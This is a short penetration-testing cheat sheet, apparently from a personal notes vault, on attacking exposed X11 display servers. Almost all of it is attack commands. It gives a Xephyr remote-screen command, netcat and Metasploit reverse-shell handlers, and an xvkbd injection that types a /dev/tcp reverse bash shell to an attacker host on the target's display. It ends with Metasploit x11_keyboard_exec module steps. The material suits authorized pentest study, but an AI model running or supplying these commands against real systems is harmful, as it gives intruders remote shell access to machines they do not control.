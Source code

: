 s# X11

## 01 - Manual

### 1.1 - Remote Screen

```
$ Xephyr -from <attacker_IP> -query <target_IP> -screen 800x600 :1
```

### 1.2 - Implant Callback

Launch a shell handler.

```
$ nc -lnvp <attacker_PORT>

$ sudo msfconsole -qx "use exploit/multi/handler; set payload cmd/unix/reverse_bash; set lhost <attacker_IP>; set lport <attacker_PORT>; run"
```

Execute the command with one-liner shell.

```
$ xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display <target_IP>:1 -text "/bin/bash -i > /dev/tcp/<attacker_IP>/<attacker_PORT> <&1 2>&1\r"
```

## 02 - Metasploit

```
msf > use exploit/unix/x11/x11_keyboard_exec

msf exploit(unix/x11/x11_keyboard_exec) > set payload linux/x64/metepreter/reverse_tcp

msf exploit(unix/x11/x11_keyboard_exec) > options

msf exploit(unix/x11/x11_keyboard_exec) > set rhost <target_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lhost <attacker_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lport <attacker_PORT>

msf exploit(unix/x11/x11_keyboard_exec) > set time_wait 10

msf exploit(unix/x11/x11_keyboard_exec) > run
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/01 - Vulnerable Network Protocols/Remote Services/X11|Vulnerability Assessment: Remote Services - X11]]

- [Bordergate: Pentesting X11](https://www.bordergate.co.uk/pentesting-x11/)
